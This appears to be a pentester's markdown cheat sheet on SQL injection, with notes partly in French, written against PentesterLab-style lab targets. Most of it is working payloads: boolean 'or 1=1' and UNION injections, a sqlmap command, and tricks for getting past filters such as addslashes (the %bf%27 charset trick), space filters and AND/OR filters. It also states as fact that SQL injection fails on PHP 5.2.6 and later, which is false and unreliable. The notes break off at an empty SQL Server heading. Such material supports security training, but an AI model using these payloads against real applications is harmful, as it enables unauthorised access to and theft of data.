 # SQLi : SQL Injection


````sql
SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
````
- Close the string : ' "
- Widen the request : or 1=1
- Add inputs with UNION
- Comment end of request : -- #

````
http://12.0.0.11/sqli/example1.php?name=root' or '1'='1
http://12.0.0.11/sqli/example1.php?name=root' or '1'=1
http://12.0.0.11/sqli/example1.php?name=root’ or 1=1-- -
http://12.0.0.11/sqli/example1.php?name=root%27%20or%20%271%27=%271
````

## SqlMap

Url: http://f4l13n5n0w.github.io/blog/2015/05/22/pentesterlab-web-for-pentester-sql-injection/
````
http://10.10.10.129/sqli/example1.php?name=root' or 1=1-- -

sqlmap -u "http://10.10.10.129/sqli/example1.php?name=root" --dbs --banner
````

## Avoid simple filters
### Limit returned results
````
a' or 1=1 LIMIT 1 #
````

Replace Space by Tab %09 
````
username=admin%27%09or%091%3D1%09--%09&password=admin
````

Bypass php function ‘addslashes’ used to insert strings in mysql requests
Use Chinese charset %bf%27  to set a ' in proxy
````
username=a%bf%27+or+1=1+#&password=b
````

Filter sur AND ou OR, les remplacer par
````
AND :   &&   %26%26 
OR  :  || 
````
Filtrage sur les Espaces -> newlines %A0, utiliser des \t TAB %90 , utiliser /**/
````
http://12.0.0.11/sqli/example2.php?name=root%27%A0or%A01=1--%A0-
````
Filter with : mysql_real_escape_string
````
$iId = mysql_real_escape_string("1 OR 1=1");
http://12.0.0.11/sqli/example4.php?id=2 OR  1=1
````

### Note: PHP <=5.2.6
SQL Injection won't work on PHP >= v5.2.6.
Unless php tuned for
````
<IfModule mod_php5.c>
    magic_quotes_gpc = Off
    allow_url_fopen = On
    allow_url_include = On
</IfModule>
````



### Use Union
````
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2,3,4
````
Identify number of fields in select: here 1,2,3,4 doesn’t generate error



##  SQL Server 
